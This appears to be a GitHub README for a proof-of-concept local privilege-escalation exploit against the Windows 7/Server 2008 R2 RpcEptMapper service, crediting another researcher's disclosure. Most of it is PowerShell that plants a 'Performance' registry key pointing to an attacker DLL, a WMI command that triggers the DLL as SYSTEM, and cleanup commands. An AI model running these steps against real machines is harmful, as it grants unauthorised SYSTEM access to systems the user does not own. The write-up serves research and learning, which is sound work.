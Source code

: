 # Windows RpcEptMapper Service EoP exploit

Clément Labro ([@itm4n](https://twitter.com/itm4n)) released in November 12, 2020 [all the details](https://itm4n.github.io/windows-registry-rpceptmapper-eop/) for a vulnerability on Windows 7 and Windows Server 2008 R2 that would allow an unprivileged user to escalate to SYSTEM. Based in his thorough description of the problem and also using his [dll template](https://gist.github.com/itm4n/253c5937f9b3408b390d51ac068a4d12#file-dllrpcendpointmapperpoc-cpp) I've coded my own version of the [exploit](https://twitter.com/neosysforensics/status/1327190096060297216), mainly as a learning process.

[Yesterday](https://twitter.com/itm4n/status/1359987926550077440) Clément Labro released a tool to take profit of the vulnerability, [Perfusion](https://github.com/itm4n/Perfusion), and now I think I can release my PoC without being disrespectful.

As indicated in the original blog post, In order to escalate privileges using the resulting DLL the appropriate registry key has to be created:


```
$ServiceKey = "SYSTEM\CurrentControlSet\Services\RpcEptMapper\Performance"
Write-Host "[*] Create 'Performance' subkey"
[void] [Microsoft.Win32.Registry]::LocalMachine.CreateSubKey($ServiceKey)
Write-Host "[*] Create 'Library' value"
New-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Library" -Value "$($pwd)\DllRpcEndpointMapperPoc.dll" -PropertyType "String" -Force | Out-Null
Write-Host "[*] Create 'Open' value"
New-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Open" -Value "OpenPerfData" -PropertyType "String" -Force | Out-Null
Write-Host "[*] Create 'Collect' value"
New-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Collect" -Value "CollectPerfData" -PropertyType "String" -Force | Out-Null
Write-Host "[*] Create 'Close' value"
New-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Close" -Value "ClosePerfData" -PropertyType "String" -Force | Out-Null
```

After that, to trigger the execution of the service execute the PowerShell command included below:

```
Get-WmiObject -List | Where-Object { $_.Name -Like "Win32_Perf*" }
```

If all goes well a SYSTEM shell will be show:

<p style="margin-left: 30px;"><img src="./001.png" style="border: 1px solid black;" alt="PoC execution" /></p>

In order to clean the environment or if something was wrong the next commands should be used to delete the registry key previously created:


```
$ServiceKey = "SYSTEM\CurrentControlSet\Services\RpcEptMapper\Performance"
Write-Host "[*] Cleanup"
Remove-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Library" -Force
Remove-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Open" -Force
Remove-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Collect" -Force
Remove-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Close" -Force
[Microsoft.Win32.Registry]::LocalMachine.DeleteSubKey($ServiceKey)
```

As I said, all the kudos to Clément Labro ([@itm4n](https://twitter.com/itm4n)) for his impressive work.

## Useful links

- [Windows RpcEptMapper Service Insecure Registry Permissions EoP](https://itm4n.github.io/windows-registry-rpceptmapper-eop/)
- @itm4n gist: [Windows 7-2008R2 RpcEptMapper Service Insecure Registry Permissions EoP - PoC DLL](https://gist.github.com/itm4n/253c5937f9b3408b390d51ac068a4d12#file-dllrpcendpointmapperpoc-cpp)
- @masthoon gist: [Launch SYSTEM CMD in user current session (from a service)](https://gist.github.com/masthoon/6f81e466d458ff8056d76266b90d2b5e)
- [Retrieving the Last-Error Code](https://docs.microsoft.com/en-us/windows/win32/debug/retrieving-the-last-error-code)
- [CreateProcessAsUser fails with error 5 (Access Denied) when using Jobs](https://www.sysadmins.lv/retired-msft-blogs/alejacma/createprocessasuser-fails-with-error-5-access-denied-when-using-jobs.aspx)
- [Perfusion](https://github.com/itm4n/Perfusion)

Happy Hacking!